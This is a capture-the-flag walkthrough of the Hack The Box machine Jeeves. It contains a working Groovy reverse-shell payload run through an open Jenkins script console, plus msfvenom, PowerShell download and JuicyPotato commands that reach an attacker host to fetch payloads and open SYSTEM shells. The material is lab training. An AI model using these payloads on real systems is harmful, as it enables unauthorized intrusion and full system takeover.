 # Jeeves - Hack The Box Walkthrough

**Date**: 2024-12-04  

---

## Scope

**Target IP**: `10.10.10.63`  
**Machine Name**: Jeeves  
**OS**: Windows 10 Pro x86

I stored the target IP in a file and added `jeeves.htb` to my `/etc/hosts` for easier access.  

---

## Enumeration

### 1. Port Scanning
I performed an Nmap scan to identify open ports:
```bash
nmap -p- 10.10.10.63 -v -oN nmap/full_tcp_ports_scan.txt
```

**Open Ports**:
```
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2
```

### 2. Service Enumeration
I performed a detailed scan of these ports:
```bash
nmap -p80,135,445,50000 -A -T4 -v -oN nmap/service_scan.txt
```

**Key Findings**:
- **Port 80**: Microsoft IIS 10.0 serving a basic webpage titled *Ask Jeeves*.
- **Port 50000**: Running Jetty 9.4.z-SNAPSHOT, presenting an HTTP 404 error.  
- **SMB**:
  - Message signing disabled, which could allow an SMB relay attack:
    ```text
    | smb-security-mode: 
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    ```

---

## HTTP on Port 80

I accessed the webpage at `http://jeeves.htb`. It was a simple HTTP page with no actionable content. Running `ffuf` for directory enumeration yielded no useful results.

---

## HTTP on Port 50000 - Jenkins

Accessing `http://jeeves.htb:50000` returned a 404 error. Using `ffuf` for directory enumeration:
```bash
ffuf -c -u "http://jeeves.htb:50000/FUZZ" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

I discovered the directory `/askjeeves`, leading to a Jenkins instance accessible without credentials:
```text
http://jeeves.htb:50000/askjeeves/
```

![image](https://github.com/user-attachments/assets/b02e65da-6048-4132-abe5-cc71bb1e5e63)

---

## Exploitation via Jenkins

Jenkins provides a Groovy script console, which allows remote code execution.  
**Steps**:
1. Navigate to `Manage Jenkins > Script Console`.

![image](https://github.com/user-attachments/assets/507e695a-54f7-47ac-a78c-f708490cba14)

2. Generate a reverse shell payload using [Reverse Shell Generator](https://www.revshells.com/):
    ```groovy
    String host="<your_IP>";
    int port=<your_port>;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
    Socket s=new Socket(host,port);
    InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
    OutputStream po=p.getOutputStream(),so=s.getOutputStream();
    while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
    while(pe.available()>0)so.write(pe.read());
    while(si.available()>0)po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);}
    p.destroy();
    s.close();
    ```

![image](https://github.com/user-attachments/assets/6888660c-dfe1-48f5-aecb-62eba7986519)

3. Start a listener:
    ```bash
    nc -lvnp 9001
    ```
4. Run the payload in the Jenkins script console.

![image](https://github.com/user-attachments/assets/767fdb96-40fb-4155-88bd-9a8ffe18a953)

**Outcome**: Obtained a reverse shell as a low-privileged user and retrieved the **user flag**.

---

## Privilege Escalation

### 1. Token Impersonation via JuicyPotato
#### Initial Findings
Checking privileges revealed `SeImpersonatePrivilege` enabled:
```bash
whoami /priv
```

#### Exploitation
1. **Download JuicyPotato** on your local machine:
   ```bash
   wget "https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe"
   ```
2. **Generate a Meterpreter Reverse Shell**:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=8887 -f exe -o shell.exe
   ```
3. **Start a Web Server**:
   ```bash
   python3 -m http.server 8081
   ```
4. **Transfer Exploits to the Target**:
   ```bash
   cd %TEMP%
   powershell.exe -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'http://<your_IP>:8081/JuicyPotato.exe' -OutFile JuicyPotato.exe"
   powershell.exe -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'http://<your_IP>:8081/shell.exe' -OutFile shell.exe"
   ```
5. **Start Listener**:
   ```bash
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <your_IP>
   set LPORT 8887
   run
   ```
6. **Run JuicyPotato**:
   ```bash
   .\JuicyPotato.exe -t * -p shell.exe -l 443
   ```

**Outcome**: Obtained a Meterpreter session with `NT AUTHORITY\SYSTEM` privileges.

### 2. Alternate Data Stream (ADS)
Inspecting the administrator's desktop, I found no visible `root.txt`. Running the following command revealed a file with an alternate data stream:
```bash
dir /R
```

**Extracting Root Flag**:
```bash
more < hm.txt:root.txt
```

![image](https://github.com/user-attachments/assets/ee7b3388-8040-43b1-ad77-5f56ccfc6885)

---

## Summary

1. Discovered Jenkins on port 50000.
2. Exploited Jenkins Groovy Console to gain initial shell and retrieve user flag.
3. Used JuicyPotato to escalate privileges to `SYSTEM`.
4. Retrieved the root flag from an Alternate Data Stream (ADS).

---

## Resources

- [Jenkins Penetration Testing](https://www.hackingarticles.in/jenkins-penetration-testing/)
- [Abusing Jenkins Groovy Script Console to get Shell](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
- [Reverse Shell Generator](https://www.revshells.com/)
- [JuicyPotato](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
- [Windows Privilege Escalation — Token Impersonation (SeImpersonatePrivilege)](https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070)

--- 
